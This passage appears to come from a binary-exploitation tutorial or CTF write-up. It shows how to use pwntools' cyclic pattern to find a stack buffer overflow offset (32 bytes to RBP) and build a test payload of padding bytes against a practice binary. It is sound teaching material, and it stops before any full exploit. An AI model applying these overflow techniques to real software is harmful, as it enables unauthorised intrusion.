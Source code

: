 * We can do this by using a <mark style="color:yellow;">cyclic pattern</mark>

We have covered how to do this in `pwndbg` numerous times before, but how about we do it inside of pwntools?

We can achieve this by using `cyclic(100)` inside of our payload.

#### **Example:**

```python
    payload = b''.join([    # Use join() to join all elements in a list into one string
        cyclic(100)         # Send a 100-byte payload to the program's input
    ])
    r.send(payload)         # Send payload
```

#### Run:

`python3 solve.py LOCAL`

**Continue execution with `c`:**

<figure><img src="../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

We can see that we began overwriting the `RBP` register at the pattern, `iaaajaaa`.

We can now find our offset with `cyclic -l iaaajaaa` and we get `32`.

This means <mark style="color:yellow;">we can now modify our payload to have our offset</mark> and we can overwrite something else <mark style="color:yellow;">so we can validate which part of the stack we are overwriting</mark>.

#### Example:

```python
def main():
    
    offset = 32
    length = 90
    r = conn()
    r.recvuntil(b'\n> ')
    # r.send(b'A'*100)
    payload = b''.join([    # Use join() to join all elements in a list into one string
        b'A'*offset,
        b'\x42\x42\x42\x42\x42\x42\x42\x42', # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
    ])
    
    payload += b'C'*(length -len(payload)) # A's at the top, B's for injection test, and C's for padding out the original length of data to send out

    r.send(payload)
```

Now, <mark style="color:yellow;">continue execution</mark> in the debugger with `c`.

#### Print out register information:

